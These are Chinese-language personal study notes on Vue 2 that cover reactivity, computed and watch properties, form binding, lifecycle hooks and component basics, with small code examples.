

#### 列表排序

-  <span style='color:hotpink'>技术点：</span>在`列表过滤`的基础上使用数组的排序方法进行排序即可

```vue
    <div id="one">
        <input type="text" v-model="keyWord" placeholder="请输入">
        <button @click="sortType = 2">年龄升序</button>
        <button @click="sortType = 1">年龄降序</button>
        <button @click="sortType = 0">原顺序</button>
        <li v-for="(p,index) of people" :key="p.id">{{p.name}}--{{p.age}}--{{p.sex}}</li>
    </div>


<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#one',
        data: {
            keyWord: '',
            sortType: 2, //2升序，1降序，0原顺序
            persons: [{id: 1,name: '周冬雨',age: 18,sex: '女'}, 
                      {id: 2, name: '周杰伦',age: 26,sex: '男'}, 
                      {id: 3,name: '扁嘴论',age: 15,sex: '男'}, 
                      {id: 4,name: '马冬梅',age: 45,sex: '女'}]
        },
        //计算属性
        computed: {
            //筛选符合输入的数据  进行数据的排序操作
            people: {
                get() {
                    let peoples = this.persons.filter((p) => {
                        //indexOf()方法，返回值为-1表示没有匹配的字符，找到匹配的字符则返回匹配头的索引值
                        return p.name.indexOf(this.keyWord) !== -1;
                    })
                    //判断是否需要排序，即sortType的值是否为0
                    if (this.sortType) {
                        peoples = peoples.sort((a, b) => {
                            //sort()方法的排序方式，a-b表示升序，b-a表示降序
                            return this.sortType == 1 ? b.age - a.age : a.age - b.age;
                        })
                    }
                    //不需要排序时，直接输出筛选后的peoples，否则输出经过if判断并排序后的peoples
                    return peoples;
                }
            }
        }
    })
</script>
```


#### 更新时的问题

- <span style='color:hotpink'>直接用数组的索引值去更改数据时，vue无法检测到！</span>
- 对数组中的对象的值进行更改时，可以奏效！




### 响应式数据

#### 监测原理：

- data的数据 vue拿到后先进行加工，再绑定到vm身上

- 数据侦听绑定原理代码如下：

- 与源码不同的点：

  - 没有做数据代理，例：data中的属性无法直接`vm.name`调用
  - 没有考虑data对象中的对象，源码使用了递归的方法，可以为多层数据进行绑定
  - <span style='color:hotpink'>当数据被该改变后就去解析模板，生成新的虚拟DOM....</span>

  ```javascript
      let data = {
              name: '吴老板',
              age: 18
          }
      //创建一个监视的实例对象，用于监视data数据的变化
      const obj = new Observer(data)
      //准备一个vm实例对象 
      let vm = {};
      vm._data = data = obj;
      function Observer(obj) {
          //汇总对象中所有的属性形成一个数组   
          //Object.keys()方法  可以将传入的对象的所有属性名转化为一个数组
          const keys = Object.keys(obj);
          //遍历数组中的每一个属性名，为他们（k）绑定set和get
          keys.filter((k) => {
              //箭头函数，这里的this指代obj实例对象，k是传入的参数，即遍历的每一个属性名
              Object.defineProperty(this, k, {
                  get() {
                      return obj[k];
                  },
                  //set是当属性k的值发生变化时，就调用set，再把对应实例对象的值改变为更改后的值
                  set(newvalue) {
                      console.log(`${k}被改了，vue开始解析模板，生成虚拟DOM..`);
                      return obj[k] = newvalue;
                  }
              })
          })
      }
  ```

  


#### 追加/删除

- 说明：

  - 后期动态增加的数据默认不具有响应式，且不解析到页面，
  - 只有数据代理并且执行set后才会进行解析DOM；例如：`this.myObject.newProperty = ' hi ';`
  - 建议：需要使用的数据应在data中提前声明，不过分依赖该属性
  - 后端返回数据后，可能需要进行动态绑定
- Vue.set()方法

  - <span style='color:#DA9B00'>`Vue.set(target,'properytName/index',value)`</span>
  - <span style='color:#DA9B00'>`this.$set(target,'properytName/index',value)`</span>
  - `target`: 追加属性的对象，不能给<span style='color:hotpink'>Vue实例</span>，或者Vue实例的<span style='color:hotpink'>根数据对象</span>追加属性
  - `properytName/index`:要增加的属性的名字
  - `value`:追加的属性的值
- 用法：向响应式对象中添加一个`properytName`,并保证新`propery`同样是响应式的，且触发视图更新
- Vue.delete() 方法
  - 向响应式对象中删除属性
  - <span style='color:#DA9B00'>`this.$delete(target,value)`</span>
  - <span style='color:#DA9B00'>`Vue.delete(target,value)`</span>
  - `target`： 删除属性的对象
  - `value`：要删除的属性的名字

```vue
<div id="one">
    <h1>姓名:{{my.name}}</h1>
    <!-- 当解析模板时找不到根数据时会报错，但根数据下的数据找不到时默认返回undifund，并且不显示在页面上 -->
    <h1 v-if='my.friend'>朋友：{{my.friend}}</h1>
    <button @click="upfriend">点我添加朋友</button>
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#one',
        data: {
            my: {
                name: '吴老板'
            }
        },
        methods: {
            upfriend() {
                Vue.set(this.my, 'friend', 'zy');
            }
        }
    })
</script>
```


#### 监测数组：

- Vue将被侦听的<span style='color:hotpink'>数组的变更方法</span>进行包裹，所以它们也<span style='color:hotpink'>能触发视图更新，</span>包括：

  - `push()`：
  - `pop()`
  - `shift()`
  - `unshift()`
  - `splice()`
  - `sort()`
  - `reverse()`

- `Vue.set()`方法也能实现对数组元素的修改

  - 

- <span style='color:hotpink'>替换数组：</span>`filter`等其他数组操作的方法 <span style='color:hotpink'>不改变原数组。</span>而总是返回一个新数组，当使用非变更方法时，可以用新数组替换旧数组。

  

```vue
<div id="one">
    <h1>爱好</h1>
    <button @click='bian'>变成三好学生</button>
    <li v-for='h in hobby' :key="index">{{h}}</li>
</div>
<script>
    Vue.config.productionTip = false;
    new Vue({
        el: '#one',
        data: {
            hobby: ['抽烟', '喝酒', '打架', '吃屎']
        },
        methods: {
            bian() {
                Vue.set(this.hobby, '0', '自习');
                Vue.set(this.hobby, '1', '上课');
                //splice方法操作数组，从索引值为2的位置开始删除，删除1个，并在删除后的位置添加新的值
                this.hobby.splice(2, 1, '弹钢琴', '画画');
            }
        }
    })
</script>
```


#### 总结：

1. **Vue会侦听data中所有层次的数据**

2. **如何检测对象中的数据？**
   - 通过setter 实现监视，且要在`new Vue`时就传入要监视的数据

   - 对象中后追加的属性，Vue默认不做响应式处理

   - 如需给后添加的属性做响应式，需要使用如下API

     - `Vue.set(target,'properytName/index',value)`
     - `vm.$set(target,'properytName/index',value)`

3. **如何检测数组中的数据？**
   - 通过包裹数组更新元素的方法实现，本质：
     - 调用原生对应的方法对数组进行更新
     - 重新解析模板，进而更新页面

4. **在Vue修改数组中的某一个元素一定要用如下方法：**

   - 使用修改原数组的API：`push()、pop()、shift()、unshift()、splice()、sort()、reverse()  `
   - `Vue.set()`或`vm.$set()`

<span style='color:hotpink'>特别注意：</span>`Vue.set()`和`vm.$set()` 不能给vm或vm的根数据对象 添加属性！


### DOM异步更新

> 当vue中数据发生改变后，视图的自动更新是：异步执行的过程

- 存在的问题：修改数据后，不能立刻获取到更新后的DOM

- 解决方案：

  - 使用 *$nextTick*
  - 使用定时器，时间不设置，就实现了延时回调功能(不好把握)

- *$nextTick*

  - 语法：`this.$nextTick(回调函数)` 或 `Vue.nextTick(回调函数)`

  - 作用：在DOM更新完成时第一时间执行 回调函数

  - 注意点：

    - 回调函数中this指向当前vc
    - 当没有提供回调函数且在支持promise环境下，返回一个promise对象

  - 使用情形：当数据改变后，基于更新后的DOM进行操作时使用

    - 例1：全局事件总线中，第一次向路由页面传递数据出现问题，子页面在渲染前未绑定事件

      > 将回调延迟到下次 DOM 更新循环之后执行。在修改数据之后立即使用它，然后等待 DOM 更新。它跟全局方法 Vue.nextTick 一样，不同的是回调的 this 自动绑定到调用它的实例上。

    - 例2：当页面显示一个输入框后，需要让它再获取焦点

    - 如果不使用该方法，代码含义：将控制输入框显示地数据修改后就执行获取焦点操作，而此时页面还没有输入框

    - 

  - 其他解决办法：使用定时器，时间不设置，就实现了延时回调功能。


### 表单数据收集

> `v-model` 会忽略所有表单元素的 `value`、`checked`、`selected` attribute 的初始值而总是将 Vue 实例的数据作为数据来源。你应该通过 JavaScript 在组件的 `data` 选项中声明初始值。

- <span style='color:hotpink'>`<input type="text"/>` </span>v-model 就是value

- <span style='color:hotpink'>`<input typr="radio"/>` </span>v-model 收集value的值，需要给标签配置 value属性

- <span style='color:hotpink'>`<input type="checkbox"/>`</span>

  - 未配置`input`的`value`属性，v-model收集的是`checked`(勾选 or 未勾选 )是布尔值
  - 配置`input`的`value`属性，
    - v-model的初始值是数组，收集的就是value 组成的数组。
    - v-model的初始值是非数组，收集的就是`checked`(勾选 or 未勾选 )是布尔值

- 注意：

  - 表单form中的按钮，没有写属性时**默认为提交按钮，**会导致页面刷新。可以给form标签绑定submit事件
  - ` <form @submit.prevent="demo">` submit提交事件，阻止默认事件(刷新页面)并触发demo事件。
  - text 和 textarea 元素使用 `value` property 和 `input` 事件；
  - checkbox 和 radio 使用 `checked` property 和 `change` 事件；
  - select 字段将 `value` 作为 prop 并将 `change` 作为事件。

  ```vue
  <div id="app">
          <!-- form表单的action属性：指定表单提交的地址，实际交互用ajax，不使用该属性 -->
          <form @submit.prevent="demo">
              <!-- label获取焦点，当点击文字时，自动定位到输入框 -->
              <h5> <label for="id"> 账号：</label><input type="text" id="id" v-model="id"></h5>
              <h5>密码： <input type="password" v-model="password"></h5>
              <h5>性别： 
                 男<input type="radio" value="男" name="sex" v-model="sex"> 
                 女<input type="radio" value="女" name="sex" v-model="sex"> 
             </h5>
              <h5>爱好：
                 学习<input type="checkbox" name="hobby" value="学习" v-model="hobby"> 
                 打游戏<input type="checkbox" name="hobby" value="打游戏" v-model="hobby"> 
                 吃饭 <input type="checkbox" name="hobby" value="吃饭" v-model="hobby"></h5>
              <h5>所属校区
                 <select name="xiaoqu" id="xiaoqu" v-model="xiaoqu">
                     <option value="">请选择校区</option>
                     <option value="北京">北京</option> 
                     <option value="天津" >天津</option>
                     <option value="上海"  >上海</option>
                  </select>
              </h5>
              <h5> 其他信息：
                 <textarea name="onetextarea" id="onetextarea" cols="30" rows="10" v-model="textarea"></textarea>             </h5>
              <h5> <input type="checkbox" value="yes" name="yes" v-model="yes"> 阅读并接受
                 <a href="#">《用户协议》</a>
             </h5>
              <button>提交</button>
          </form>
      </div>
  
      <script>
          Vue.config.productionTip = false;
          new Vue({
              el: "#app",
              data: {
                  id: '',
                  password: '',
                  sex: '',
                  hobby: [],
                  xiaoqu: '',
                  textarea: '',
                  yes: ''
  
              },
              methods: {
                  demo() {
                      console.log(JSON.stringify(this._data));
                  }
              },
          })
      </script>
  ```


### Vue配置项

#### el与data

- el的两种写法
  - 在创建vue实例时进行`el`绑定
  - 先创建vue实例，再通过`vm.$mount('#one')`指定el的值
- data的两种写法
  - 对象式

  - 函数式

    - 当使用组件时，必须使用函数式的data 否则容易报错
    - 由vue管理函数时，一定不要使用箭头函数，因为箭头函数的`this`指向`windows`而不是`vue实例对象`

```javascript
const shili = new Vue({
    el:'.one',           //el绑定 第一种方法
    data:{
        name:'吴老板'        //data 对象形式式
    }
})

shili.$mount('.one');     //el绑定 第二种方法
```

```vue
<script>
    new Vue({
    el:'.two',
    data(){                   //data 函数式
        console.log(this)     //此处的this是vue实例
        return{
            name:'吴老板'       
        }
    }
})
</script>
```

 

#### template模板

- 作用：将页面结构写在Vue配置项中
- 注意：
  - 使用普通引号时不能换行，否则报错
  - 使用ES6的模板字符串反向单引号时，支持换行
  - `template`中必须写一个根标签，否则报错
  - 会完全替换掉页面中的容器，原有的容器标签不再显示


#### 计算属性`computed`

- 定义：要使用的属性不存在，通过已有属性计算得到新的数据
- 原理：底层借助Object.defineproperty方法提供的getter和setter
- get函数执行的时机：
  - 初次读取数据时执行一次
  - 当依赖的数据发生变化时会被再次调用执行
  - <span style='color:hotpink'>`get`必须用`return`返回值</span>
- 优势：与methods相比，内部增加了缓存机制，提升性能
- 计算属性也会出现在vm实例对象上，可以直接读取；
- 如果计算属性可以被修改，必须用<span style='color:hotpink'>set函数进行响应修改，</span>且set中要引起依赖的数据发生变化

```vue
<div class="one">
        姓<input type="text" v-model:value="xing"> 
        名<input type="text" v-model:value="ming">
        <br>组合：<span>{{fullname}}</span>
</div>

    <script>
        Vue.config.productionTip = false;
        new Vue({
            el: '.one',
            data: {
                xing: '吴',
                ming: '爸爸'
            },
            computed: {
                fullname: {
                    get() {
                        //此处的this是vm
                        return this.xing + '-' + this.ming
                    },
                    set(value) {
                        //这里的value表示，当fullname发生更改后的值；this指向vm
                        this.xing = value;
                    }
                }
            }
        })
    </script>
```


##### <span style='color:hotpink'>计算属性简写</span>

- 前提：不更改计算属性（不使用set方法）时才可以简写
- 简写时，直接写成函数形式，函数体即表示get的内容 

```vue
<div class="one">
        姓<input type="text" v-model:value="xing"> 
        名<input type="text" v-model:value="ming">
        <br>组合：<span>{{fullname}}</span>
</div>

    <script>
        Vue.config.productionTip = false;
        new Vue({
            el: '.one',
            data: {
                xing: '吴',
                ming: '爸爸'
            },
            computed: {
                 fullname() {
                    return this.xing + '-' + this.ming
                }
            }
        })
    </script>
```


##### 注意点

- 基于响应式依赖进行缓存，只有计算属性的相关响应式数据依赖发生变化后才会重新计算

  - 如果不希望使用缓存，需要使用其他方法

- 使用Date now()，初次渲染后不会再刷新，不是响应式数据

  ```js
   computed: {
      new() {
         return Date now();  //初次渲染后不会再刷新，不是响应式数据
      }
  }
  ```


#### 侦听(监视)`watch`

- <span style='color:hotpink'>`handler(newvalue,oldvalue)`属性</span>里有两个参数，第一个表示更改后戏新的数据，第二个表示旧的数据

- 当被侦听的数据发生变化时，就自动调用handler函数，进行相关操作

- 既可以侦听`data`中的数据，也可以侦听计算属性`computed`中的数据

- <span style='color:hotpink'>`immediate`属性</span>：若值为`true则`初始化时就让`handler`执行一次，默认为`false`

- 两种侦听的写法：

  ```js
  //进行侦听的第一种方法：在vm实例对象中直接配置
  watch: {
      sky: {   //既可以侦听`data`中的数据，也可以侦听计算属性`computed`中的数据
          handler(newvalue, oldvalue) {
              console.log('sky的值被修改了' + newvalue + oldvalue);
          }
      }
  }
  //进行侦听的第二种方法：在vm外进行监听绑定
  vm.$watch('侦听的属性名',{侦听参数})
  ```

- 监视对象属性的变化需要加引号 ""

  ```js
  // 监视对象属性的变化需要加引号
  // 键值对的 键 为字符串！  不过一般不加引号，当存在多级关系时，需要手动加引号
  'person.age':function(){
     .....
  }
  ```

  


##### 深度侦听(监视)

- Vue中的`watch`默认不检测对象内部值的改变(一层)
- 方法一：配置<span style='color:hotpink'>`deep:true`</span>可以检测对象内部值改变（多层）

```js
 watch: {
     number: {
         deep: true,
         handler() {
             console.log('number变化了')
         }
     }
 }
```

- 方法二：手动指定内部检测对象，注意`watch`中的多级结构内容需要加**引号**，否则报错

```vue
    <div class="one">
        <h2>a的值是：{{number.a}}</h2>
        <button @click="number.a++">点击增加a的值</button>
    </div>

    <script>
        Vue.config.productionTip = false;
        new Vue({
            el: '.one',
            data: {
                number: {
                    a: 1,
                    b: 1,
                    c: 1
                }
            },
            watch: {
                'number.a': {
                    handler() {
                        console.log('a变化了')
                    }
                }
            }
        })
    </script>
```


##### 侦听属性简写

- 当配置项中只用`handler`配置时，才可以简写

```js
//内部监视的简写
watch:{
    //xxx表示要监视的值
    xxx(newvalue,oldvalue){
        console.log('xxx被修改了');
    }
}

//外部监视简写
vm.$watch('xxx',function(newvalue,oldvalue){
    console.log('xxx被修改了');
})
```


#### 计算属性与侦听属性区别

- `computed`能完成的功能`watch`都可以完成

- `watch`可以进行异步操作，但`computed`不行

  - 当需要再数据发生变化时，执行**异步**或**开销较大**的操作时，设置中间状态，侦听属性比计算属性更合适。

    例：当用户输入问题，向后台请求数据过程中使用，设置请求，临时返回中间状态。

- 注：

  - 所有Vue管理的函数，最好写成<span style='color:hotpink'>普通函数，</span>这样`this`指向才是vm 或组件实例对象
  - 所有不被Vue管理的函数(定时器、ajax、promise的回调函数)，最好写<span style='color:hotpink'>箭头函数，</span>这样`this`指向才是vm 或组件实例对象


#### props单向数据流(父-子)

- 功能：让组件接受外部传递过来的数据

- 传递数据

  - `<Dome :name="xxx" />`   父组件中在子组件标签上写属性(数据名)与值(数据)

- 接受数据：

  - 方式1 (只接收)：`props:['name']`

  - 方式2 (限制类型)：`props:{ name:Number }`

  - 方式3 (限制类型、必要性、指定默认值)：

    ```js
    props:{
       name:{
         type:String,    //类型
         required:true,  //必要性
         default:'老王'  //默认值 
       },
    }
    ```

- 使用数据

  - props传输的数据直接放在组件实例对象vc上，
  - 在`<script>`中使用，`this.xxx`
  - 或者直接在模板`<template>`中使用`{{xxx}}`

- 备注：

  - props是只读的，修改props会导致报错，也不要使用v-model进行绑定
  - 如需修改，可重新定义一个值保存修改后的内容，不要直接修改
  - 接受声明时，如果出现未传输的值时，显示`undefined`
  - props传过来的若是对象或数组类型的值，修改其中的数据时Vue不会报错，但不推荐。


#### ref 属性

- 用来给元素或子组件注册引用信息，id的替代者

- 应用在html标签上获取的是真实DOM元素，应用在组件标签上是组件实例对象 (vc)

- 使用方法：

  - 打标识：`<h1 ref="xxx">...</h1>` 或 `<School ref="xxx" />`
  - 获取对应节点或子组件实例：`this.$refs.xxx`

- 注意：

  - $ref 属性只在组件渲染后生效，不是“响应式”的，要避免在模板或者计算属性中使用

- ```vue
  <template>
    <div>
      <h1 ref="h1">{{ name }}</h1>
      <Two ref="two"></Two>
      <button @click="showDom">click me</button>
    </div>
  </template>
  
  <script>
  import Two from "./Two";
  export default {
    data() {
      return {name: "夏之一周",};
    },
    methods: {
      showDom() {
        console.log(this.$refs);
        console.log(this.$refs.h1);
        console.log(this.$refs.two);
      },
    },
    components: { Two },
  };
  </script>
  <style>
  </style>
  ```


#### style样式

- 组件中的`<style>`标签中可以使用`lang`属性    `<style lang='css'>`
  - lang可以提供其他多种书写格式，默认是css
  - less、...(可能报错，提示需要安装对应的模块)
- **scoped属性**
  - 存在的问题：根据引入的顺序，不同组件中的`<style>`样式最终会合在一起，可能出现冲突
  - 作用：让样式在局部生效，防止冲突
  - 使用方法：
    - 在组件的`<style>`标签中加入 `scoped`属性  `<style scoped>`
    - 此时就不会导致重复，原理：增加了随机生成的属性，达到定向选择的目的
  - 特点：
    - App标签不太合适使用该属性，使用后子组件无法使用该组件内部的`<style>`样式


### 过滤器(Vue2)

- 定义全局过滤器必须写在new Vue之前，即：先定义后使用
- 这里引用了js库：`day.js`；可以参考笔记-其他概念--引用js库
- **Vue3中不再支持 该内容：推荐使用计算属性  或 methods方法**




## 进阶篇

### 生命周期

- 别名：生命周期函数、生命周期回调函数、生命周期**钩子**
- 生命周期函数中的<span style='color:hotpink'>`this`指向VM </span> 或  组件实例对象
- 在生命周期的几个关键节点，借助Vue调用一些特殊名称的函数


#### <span style='color:#DA9B00'>生命周期函数</span> 

vue2 ：11个       vue3：10

- <span style='color:hotpink'>`beforeCreate`将要创建：</span>此时没有进行数据代理，无法通过vm访问data中的数据
- <span style='color:hotpink'>`created`创建完毕：</span>数据代理完成，可以通过vm访问data中的数据 和 methods中的方法
  - 发送ajax初始请求的最佳时机，可以获取到data配置中的数据、`$on监听自定义事件`
  - 注意:此阶段不建议书写复杂的逻辑操作代码,因为如果在该阶段停留的时间越久,页面的渲染也会相应延迟,导致页面的白屏时间变长
- <span style='color:hotpink'>`beforeMount`将要挂载：</span>刚生成虚拟DOM，此时页面显示<span style='color:#E83F11'>未经编译的DOM</span>结构,对DOM操作不奏效
- <span style='color:hotpink'>`mounted`挂载完毕：</span>Vue完成模板解析并初次把真实DOM放入页面后 <span style='color:hotpink'>(挂载完成)</span> 调用一次
  - 发送ajax请求，启动定时器、绑定自定义事件、订阅消息、执行DOM操作 等【初始化操作】
  - 此阶段由于页面已经首次渲染成功,所以即便在该阶段停留的时间较长,对页面显示也不会具有太大的影响
  - 注意：mounted不保证所有的子组件也都挂载完毕，如果希望整个视图都渲染完成可以使用vw.$nextTick();
- <span style='color:hotpink'>`beforeDestroy`销毁之前：</span>所有的东西都可用
  - 调用`vm.$destroy()`方法后销毁一个实例，清理它与其它实例的连接，解绑他的全部指令和 $off 解绑自定义事件监听器
  - 再触发<span style='color:hotpink'>`beforeDestroy`</span>和<span style='color:hotpink'>`destroyed`</span>的钩子
  - 清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】
    - 由Vue绑定的事件，都不需要手动解绑，会自动解绑
    - 给页面上的标签使用onclick或者addEventListener进行事件绑定，需要手动解绑,因为该类型事件使用的是原生DOM的事件绑定语法,没有经过Vue的解析
    - 使用@符或者$on给当前组件绑定的自定义事件
      1. 该类型事件不需要手动解绑,因为当前组件绑定的自定义事件,Vue也会进行收集,在组件卸载之前会自动解绑
    - 使用$on给全局事件总线对象绑定的自定义事件
      1. 该类型事件需要手动解绑,由于bus中存储的全局事件总线对象只有在项目关闭的时候才会销毁,所以导致bus身上会遗留很多其他组件给他绑定的自定义事件,必须在离开当前组件的时候解绑与之相关的自定义事件
- <span style='color:hotpink'>`destroyed`：</span>销毁完毕
- <span style='color:hotpink'>`beforeUpdate`将要更新：</span>当数据发生改变时调用；此时数据是新的，页面是旧的，还未生成新的虚拟DOM
- <span style='color:hotpink'>`updated`更新完毕：</span>数据改变,且新的虚拟DOM放入页面后调用，页面和数据保持同步。






#### 生命周期细节

- created钩子函数中操作DOM，可将语句放在 `this.$nextTick`中

  - this.$nextTick 是在真实DOM渲染之后执行
  - 同步任务执行完，再执行微任务的意思

- 父子组件生命周期的执行顺序

  - 子mounted在父之前，destroyed在父之后

    ```
    父 beforecreate created beforeMount 
    子 beforecreate created beforeMount mounted
    父 mounted beforeDestroy
    子 beforeDestroy destroyed 
    父 destroyed
    ```

    

#### 销毁vue实例

1. 销毁后借助vue开发者工具看不到任何信息
2. 销毁后自定义事件会失效，但原生DOM事件依旧有效
3. 一般不会在`beforeDestroy`中操作数据，即便操作也不会再触发更新流程

```js
    new Vue({
        el: '#one',
        beforeCreate() {console.log('开始创建vue实例了');},
        created() {console.log('创建完成，但还未解析解析模板');},
        beforeMount() {console.log('已将解析模板并产生新的虚拟DOM，但未放入页面呢！')},
        mounted() {console.log('刚刚把虚拟DOM放入页面！')},
        beforeUpdate() {...},
        updated() {...},
        beforeDestroy() {...},
        destroyed() {...},
    })
```


### 组件化编程

- 模块：

  - 向外提供特定功能的 js程序，一般就是一个js文件
  - 实现：复用js、简化js的编写，提高js运行效率

- 组件：
  - 实现应用中局部功能<span style='color:#E83F11'>代码</span>和<span style='color:#E83F11'>资源</span>的集合（html/css/js/image...）
  - <span style='color:#DA9B00'>组件化：</span>应用中的功能都是多组件的方式编写，就是组件化应用
- 组件化编程流程
  1. 拆分静态组件：组件按功能点进行拆分，命名不能与html元素冲突(template)。
  2. 实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件再用。
     - 一个组件在用，放在自身
     - 一些组件在应用，放在它们共同共同的父组件(状态提升)
  3. 展示动态数据：
     - 数据的类型、名称。。。
     - 数据保存在那个组件？
  4. 交互：从绑定事件开始






#### 非单文件组件

1. 定义组件 (创建组件)

   - 简写：`const school =Vue.extend(options)`  可简写为 `const school=options `
   - 使用<span style='color:#E83F11'>`Vue.extend(options)`</span>创建，其中`options`和`new Vue(options)`时传入的`option`几乎<span style='color:#E83F11'>一致</span>

   - 区别：<span style='color:#E83F11'>组件不能指定`el`</span>，所有的组件都将由一个vm管理，由vm的el决定服务于哪个容器
   - <span style='color:#E83F11'>data必须写为函数形式</span>，可以避免组件复用时，数据存在引用关系
2. 注册组件
   - 局部注册：靠 `new Vue()`时传入<span style='color:#E83F11'>`components`配置项</span>
   - 全局注册：靠 <span style='color:#E83F11'>`Vue.component('组件名',组件的配置对象)`</span>
3. 使用组件 (写组件标签)
   - **只有写了相应的组件标签后，Vue底层才会创建对应的vc**
4. 注意：必须先定义组件再注册组件，代码顺序错误会导致报错！

```vue
<!--准备好容器：使用组件，写注册组件时的组件名标签即可 -->
<div class="one">
    <student></student>
    <hr>
    <school></school>
</div>

<script>
    //定义组件时不要写el配置项
    const school = Vue.extend({
        template: `<div>
                     <h1>学校名称：{{name}}</h1>
                  </div>`,
        data() {
            return {
                name: '新乡工程学院',
            }
        }
    })
    // 简写 Vue.extend
    const student = ({
        template: `<div>
                     <h1>姓名：{{name}}</h1>
                     <h1>年龄：{{age}}</h1>
                  </div>`,
        data() {
            return {
                name: '吴老板',
                age: 21
            }
        }
    })

    //一个vm管理所有的组件
    new Vue({
        el: '.one',
        //局部注册组件
        components: {
            //完整写法
            school: school,
            //简写：组件名与注册的名称一致时
            student
        }
    })
</script>
```


- 组件命名

  - 一个单词组成时：**首字母不区分大小写**，

  - <span style='color:hotpink'>多个单词组成</span>

    - 写法1(kebab-case命名)：多个单词使用引号包含，中间用`-`分割，并且使用小写的单词     例：`'my-school'`
    - 写法2(CamelCase命名)：在**脚手架环境下**，使用大写首字母的方式编写    例：`MySchool`

  - 注意：

    - 组件的命名不能是HTML中已有的元素名称。例如`h2`或`H2`都不行
    - 定义组件时，可以使用name配置项指定组件在开发者工具中显示的名字(不影响使用时的标签名)

    ```js
    const s = vue.extend({
        name:'zujian1',
        template:`...`,
        data(){ ... }
    })
    ```

- 组件标签使用

  - 写法1：`<school></school>`
  - 写法2：`<school/>`
